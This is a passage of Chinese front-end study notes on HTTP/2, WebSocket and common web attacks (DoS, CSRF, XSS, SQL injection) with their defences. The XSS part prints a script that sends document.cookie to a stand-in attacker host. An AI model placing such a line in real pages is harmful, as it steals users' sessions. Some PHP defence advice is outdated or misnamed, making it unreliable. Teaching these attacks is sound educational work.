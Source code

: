 新的二进制格式（Binary Format），HTTP1.x的解析是基于文本。基于文本协议的格式解析存在天然缺陷，文本的表现形式有多样性，要做到健壮性考虑的场景必然很多，二进制则不同，只认0和1的组合。基于这种考虑HTTP2.0的协议解析决定采用二进制格式，实现方便且健壮。

多路复用（MultiPlexing），即连接共享，即每一个request都是是用作连接共享机制的。一个request对应一个id，这样一个连接上可以有多个request，每个连接的request可以随机的混杂在一起，接收方可以根据request的 id将request再归属到各自不同的服务端请求里面。

**websocket**

WebSocket是基于HTTP1.1的协议，可以简单理解为创建了一条TCP连接，具有双向传输二进制等特性。而HTTP2.0则是对HTML、CSS等JS资源的传输方式进行了优化，并没有提供新的JS API，也不能用于实时传输消息。


### web安全

**DoS和DDoS攻击**

伪造大量不存在的ip发送请求给服务器，服务器三步握手时收不到回应会有个长时间的半连接状态，消耗大量资源。

**CSRF攻击**

b网站利用已登录a网站的cookie，发送恶意请求道a网站

Anti-CSRF-Token防御 即发送请求时在HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器建立一个拦截器来验证这个token。服务器读取浏览器当前域cookie中这个token值，会进行校验该请求当中的token和cookie当中的token值是否都存在且相等，才认为这是合法的请求

**XSS攻击**

跨站脚本攻击，XSS跨站脚本攻击本身对Web服务器没有直接的危害，它借助网站进行传播，使网站上大量用户受到攻击。攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上悄悄执行。

如下制造出一个链接：
```
vari=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
防范措施

输入过滤，在PHP中，有htmlentities()和htmlspecialchars()两个函数可以满足安全要求。相应的JavaScript的编码方式可以使用JavascriptEncode。

HttpOnly Cookie

**SQL注入攻击**

SQL注入常见的注入方式有：
(1) 内联SQL注入。向查询注入一些SQL代码后，原来的查询仍然会全部执行。内联SQL注入包含字符串内联SQL注入和数字内联SQL注入。
(2) 终止式SQL注入。攻击者在注入SQL代码时，通过注释剩下的查询来成功结束该语句。

对于SQL注入攻击，我们可以做如下防范：
(1) 防止系统敏感信息泄露。设置php.ini选项display_errors=off，防止php脚本出错之后，在web页面输出敏感信息错误，让攻击者有机可乘。
(2) 数据转义。设置php.ini选项magic_quotes_gpc=on，它会将提交的变量中所有的’(单引号)，”(双引号)，\(反斜杠)，空白字符等都在前面自动加上\。或者采用mysql_real_escape()函数或addslashes()函数进行输入参数的转义。
(3) 增加黑名单或者白名单验证。白名单验证一般指，检查用户输入是否是符合预期的类型、长度、数值范围或者其他格式标准。黑名单验证是指，若在用户输入中，包含明显的恶意内容则拒绝该条用户请求。在使用白名单验证时，一般会配合黑名单验证。

### 前端性能优化

#### 页面级别的优化
